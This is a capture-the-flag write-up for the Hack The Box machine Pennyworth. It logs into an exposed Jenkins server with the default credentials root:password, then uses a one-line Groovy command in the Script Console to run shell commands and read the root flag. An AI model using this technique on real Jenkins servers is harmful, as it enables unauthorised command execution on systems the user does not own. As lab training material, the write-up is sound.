

# Pennyworth

# Context

**Lab link**: [https://app.hackthebox.com/machines/Pennyworth?sort_by=created_at&sort_type=desc](https://app.hackthebox.com/machines/Pennyworth?sort_by=created_at&sort_type=desc)

# Scenario

A Jenkins CI server is exposed on a non-standard port. The goal is to gain access to the Jenkins Script Console and leverage its Groovy execution capability to read the root flag. Pennyworth is a very easy Linux machine that focuses on exploiting weak credentials and remote command execution in Jenkins. Default credentials can be used to get administrative access into Jenkins with which the Script Console can be leveraged to execute Groovy code and obtain a reverse shell.

# Writeup

## 1. Reconnaissance

Ran an nmap service scan against the target:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
```

Single attack surface: a Jetty web server on port 8080. The `robots.txt` disallowed `/`, and the root path redirected to `/login`, confirming a Jenkins instance.

Version confirmed via response header: `X-Jenkins: 2.289.1`

## 2. Credential Access

Attempted common default credential pairs manually against the Jenkins login form at `/login`. The working credentials were:

```
root:password
```

No brute-forcing required. HTB very easy boxes frequently use trivial credentials.

## 3. Remote Code Execution via Script Console

Navigated to the Jenkins Script Console at:

```
<http://10.129.2.22:8080/script>
```

The Script Console accepts **Groovy** scripts and executes them server-side. Ran the following one-liner to read the root flag:

```groovy
println "cat /root/flag.txt".execute().text
```

## 4. Flag

```
[REDACTED]
```



# Key Takeaways

- Always try trivial credentials (`root:password`, `admin:admin`) before reaching for Hydra.
- Jenkins Script Console = unauthenticated RCE if you have valid login credentials. One Groovy line executes arbitrary shell commands.
- HTTP response headers leak software versions (`X-Jenkins`, `X-Hudson`). Always check headers, not just the body.